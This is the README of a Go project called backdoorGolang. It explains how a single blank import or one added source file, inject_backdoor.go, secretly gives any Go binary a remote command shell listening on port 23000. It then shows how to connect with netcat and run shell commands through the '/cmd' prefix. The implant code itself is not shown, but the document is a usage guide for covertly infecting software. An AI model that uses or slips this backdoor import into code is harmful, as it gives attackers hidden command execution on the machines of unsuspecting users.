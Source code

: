 # backdoorGolang

[![Windows Build Status](https://ci.appveyor.com/api/projects/status/github/pilebones/backdoorGolang?svg=true&branch=master&passingText=Windows%20-%20OK&failingText=Windows%20-%20failed&pendingText=Windows%20-%20pending)](https://ci.appveyor.com/project/pilebones/backdoorGolang)
  
Backdoor with Golang (Cross-Plateform)

`/!\` Work in progress, not a stable release `/!\`

## Main goal

Forked from pilebones/backdoorGolang.
Changed from CLI interface to a golang module.
User should just import the module:

`import _ "github.com/guimagalhaes/backdoorGolang/core/socket/server"`

A fork of my own project named : "pilebones/backdoorBash" (see: https://github.com/pilebones/backdoorBash) but instead of using Bash as programming language (Unix-like only) this new one will work on Windows too by using a Golang API (cross-plateform) developed from scratch (as much as possible).

## Requirements

- Golang SDK : Compiler and tools for the Go programming language from Google (see: https://golang.org/doc/install)

From Arch Linux :

```bash
(sudo) pacman -S community/go
```

From Debian :

```bash
(sudo) apt-get install golang-go
```

From SUSE :

```bash
(sudo) zypper install go1.16
```

## Installation

```bash
go get github.com/guimagalhaes/backdoorGolang@v0.2.2
```

## Clone the project
To do the following experiments, clode the project:

```
mkdir $GOPATH/src/github.com/guimagalhaes/
cd $GOPATH/src/github.com/guimagalhaes/
git clone github.com/guimagalhaes/backdoorGolangtests
```

## Run test example
Go to `$GOPATH/src/github.com/guimagalhaes/backdoorGolangtests/simple_example` folder, remove the inject_backdoor.go source file and build it:

`go build`

Execute the binary './simple_example' and see that only a simple HTTP server is available:

`curl http://localhost:2020/hello`

Restore the inject_backdoor.go file and build it again:

```
git checkout inject_backdoor.go
go build
```

Execute the new binary ./simple_example and see that besides the simple HTTP server, the backdoor is now injected to the binary.
Note the inject_backdoor.go file is the only file that must be injected to a Golang source code to inject the backdoor to the software.

Follow the next session to see how to test the infected version of the binary.

## Client

It is used the 'localhost:23000' address hardcoded for now. The intention is to have network interface detection and auto selection of available network port range.
Use netcat:

```bash
netcat localhost 23000
```

Then execute a sequence of shell commands using '/cmd ' as prefix:

```
/cmd ls -l
/cmd ss -natp
...
```

To exit the netcat session:

```
/quit
<enter>
<enter>
```
